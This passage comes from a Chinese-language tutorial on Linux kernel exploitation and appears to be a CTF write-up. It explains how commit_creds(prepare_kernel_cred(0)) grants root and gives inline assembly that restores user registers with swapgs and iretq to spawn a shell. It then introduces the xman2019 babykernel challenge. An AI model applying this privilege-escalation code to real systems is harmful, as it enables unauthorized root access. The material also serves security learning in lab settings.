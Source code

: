 当后续进行了一系列特权操作提升权限 `如: commit_creds(prepare_kernel_cred(0))` 后，  
即可手动将存储的 ss、sp、rflags、cs push 到栈上，并且设置 rip 返回地址，最终调用 iretq

```c
void restore_stat()
{
	commit_creds(prepare_kernel_cred(0));
	asm(
		"pushq   %0;"
		"pushq   %1;"
		"pushq   %2;"
		"pushq   %3;"
		"pushq   $shell;"
		"pushq   $0;"
		"swapgs;"
		"popq    %%rbp;"
		"iretq;"
	::"m"(user_ss), "m"(user_sp), "m"(user_rflags), "m"(user_cs));
}
```

当调用 iretq 时，栈结构如下所示. iretq 按如下结构恢复各个寄存器的值并返回到用户态，结束

```stack
rsp:   rip    的值
       cs     的值
       rflags 的值
       sp     的值
       ss     的值
```

那么 `commit_creds(prepare_kernel_cred(0))` 到底干了什么？`prepare_kernel_cred(0)` 这个函数会使我们分配一个新的cred结构(uid=0, gid=0等)，再使用 `commit_creds` 并且把它应用到调用进程后，此时我们就是root权限了. `commit_creds` 和 `prapare_kernel_cred` 都是内核函数,一般可以通过 `cat /proc/kallsyms` 查看他们的地址，但是必须需要root权限


### [](#header-3)题目 xman2019 babykernel

题目下载：[babykernel.zip](/image/kernelpwn/babykernel.zip)

首先启动该机器，在根目录下发现 flag，其权限为 -r--------，只有 root 用户能读取

![qwb](/image/kernelpwn/3.png)  
